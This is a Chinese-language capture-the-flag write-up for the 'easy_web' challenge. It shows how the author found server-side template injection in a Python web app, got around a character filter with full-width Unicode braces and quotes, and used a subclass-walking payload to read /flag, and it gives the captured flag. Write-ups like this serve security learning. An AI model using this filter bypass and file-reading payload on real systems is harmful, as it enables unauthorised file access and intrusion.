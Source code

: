 # easy_web

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=bad5f396-ffc4-11ec-9802-fa163e4fa66d)

奇怪的符号又增加了！

进入网站，有点好玩。输入一些乱七八糟字体的符号，能给你转成正常的。然而检查元素没发现什么提示，这怎么入手？用chrome的network选项抓了个包，发现服务器的response是python。

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1327
Server: Werkzeug/2.0.2 Python/3.7.12
Date: Mon, 17 Oct 2022 01:31:57 GMT
```

python？python在ctf里最常见的考点之一就是[ssti](https://xz.aliyun.com/t/6885)模版注入。用双大括号测试一下。

- {{1+1}}
  > Your content contains restricted characters!

被过滤了。但是双大括号又是注入必须的内容，想一下怎么绕过。网站作用是把奇怪字体的符号转成正常字体，找一下大括号的奇怪表示？在[这里](http://www.fhdq.net/)找到了︷和︸。放进去试试看。

- ︷︸
  > {}

竟然可以。

- ︷︷1+1︸︸
  > 2

确定模版注入。然后就是顺着上去找父类最后找读取函数了。后面测试payload的时候发现单引号也过滤了。没关系，过滤的只是英文单引号，中文单引号没有，而且可以被解释为英文单引号。使用脚本构建payload。

```python
str='{{\'\'.__class__.__mro__[1].__subclasses__()[91].get_data(0,\'/flag\')}}'
str=str.replace('{','︷')
str=str.replace('}','︸')
str=str.replace('\'','＇')
str=str.replace(',','，')
print(str)
```

首先''是一个字符串，利用__class__获取字符串的类，也就是\<class'str'\>，然后__mro__[1]获取到父类object，__subclasses\__()获取object的全部子类。前面都是标准操作，获取哪个子类的操作不同挑战会有不同。这里我们找第92个（索引91），<class '_frozen_importlib_external.FileLoader'>的getdata来读取flag文件。

- ︷︷＇＇.__class__.__mro__[1].__subclasses__()[91].get_data(0，＇/flag＇)︸︸

- ### Flag
  > flag{8f604f91-c36a-4413-bdaf-e786ffbfda61} 